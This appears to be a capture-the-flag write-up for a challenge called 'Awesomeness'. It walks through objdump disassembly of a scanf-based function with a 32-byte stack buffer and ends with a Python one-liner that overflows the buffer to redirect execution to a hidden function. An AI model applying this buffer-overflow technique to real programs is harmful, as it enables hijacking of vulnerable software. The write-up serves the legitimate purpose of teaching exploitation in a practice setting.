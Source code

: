 # Awesomeness

## Question Text

Are you awesome enough? Let's find out!

Created by Noans

## Distribution
awesomeness.zip `SHA1: 5f42ea4a320cbfa206badffb6677a85e305ce781`

## Solution
1. Do an objdump on `awesomeProj` with the command `objdump -d awesomeProg`.
2. The following parts of from the `objdump` should be studied:  
`000000000040063b <check>:`  
`40063b:	55	push   %rbp`  
`40063c:	48 89 e5             	mov    %rsp,%rbp`  
`40063f:	48 83 ec 20          	sub    $0x20,%rsp`  
`400643:	48 8d 45 e0          	lea    -0x20(%rbp),%rax`  
`400647:	48 89 c6             	mov    %rax,%rsi`  
`40064a:	bf 08 08 40 00       	mov    $0x400808,%edi`  
`40064f:	b8 00 00 00 00       	mov    $0x0,%eax`  
`400654:	e8 67 fe ff ff       	callq  4004c0 <__isoc99_scanf@plt>`  
`400659:	bf 10 08 40 00       	mov    $0x400810,%edi`  
`40065e:	e8 3d fe ff ff       	callq  4004a0 <puts@plt>`  
`400663:	90                   	nop`  
`400664:	c9                   	leaveq`  
`400665:	c3                   	retq`  
Where the third line tells us 32 bytes is reserved for a variable.
3. Derive that one needs to override 32 bytes + rbp to overwrite return address.  
4. Also derive address of `awesome` function is `400666`.
Final command to assuming machine uses little-endian:
`python -c 'print "a" * 40 + "\x66\x06\x40"' | ./awesomeProg`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64